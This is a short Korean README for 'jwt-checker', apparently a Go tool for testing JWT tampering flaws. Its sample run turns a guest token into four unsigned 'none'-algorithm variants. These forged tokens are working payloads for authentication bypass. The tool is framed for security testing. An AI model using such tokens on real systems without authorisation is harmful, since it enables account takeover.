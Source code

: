 # jwt-checker
---
- jwt 변조 관련 보안 취약점을 간단하게 테스트하는 도구입니다. (ex: none 알고리즘, lfi, ssrf 등)
- 현재 none 알고리즘 페이로드를 생성하여 콘솔에 출력해주는 기능까지만 구현이 되었습니다. 
(추후에 동적으로 패킷 전송 및 정탐 판별까지 추가 예정)


### 사용 방법
---
```
go run ./cmd/jwt-checker/main.go -h 

Usage of C:\Users\ksw97\AppData\Local\Temp\go-build2744319202\b001\exe\main.exe:
  -m string
        공격 타입 (default "none")
  -t string
        JWT 토큰 입력
```

ex) go run ./cmd/jwt-checker/main.go -m none -t <JWT 토큰>

### 실행 결과
```
go run .\cmd\jwt-checker\main.go -m none -t eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk


eyJhbGciOiJub25lIiwidHlwIjoiand0In0=.eyJ1c2VybmFtZSI6Imd1ZXN0In0=.
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0=.eyJ1c2VybmFtZSI6Imd1ZXN0In0=.
eyJhbGciOiJOT05FIiwidHlwIjoiand0In0=.eyJ1c2VybmFtZSI6Imd1ZXN0In0=.
eyJhbGciOiJub05lIiwidHlwIjoiand0In0=.eyJ1c2VybmFtZSI6Imd1ZXN0In0=.
```